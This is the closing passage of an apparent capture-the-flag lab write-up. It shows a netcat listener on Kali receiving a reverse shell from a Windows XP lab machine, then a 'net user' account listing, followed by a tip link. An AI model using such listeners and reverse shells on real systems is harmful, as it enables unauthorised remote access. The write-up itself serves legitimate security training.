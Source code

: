 ```bash
 root@kali:~# nc -nlvp 443                                                                                                                                                           
 listening on [any] 443 …
 connect to [10.10.14.44] from (UNKNOWN) [10.129.1.111] 1032
 Microsoft Windows XP [Version 5.1.2600]
 (C) Copyright 1985-2001 Microsoft Corp.
 C:\WINDOWS\system32>net user
 net user
 User accounts for \\
 
 Administrator            Guest                    HelpAssistant            
 john                     SUPPORT_388945a0         
 The command completed with one or more errors.
 zsh: parse error near `Copyright'
```

Thanks for reading this far. If you enjoyed the writeup, do support me [__here__](https://www.buymeacoffee.com/h4xplo1t).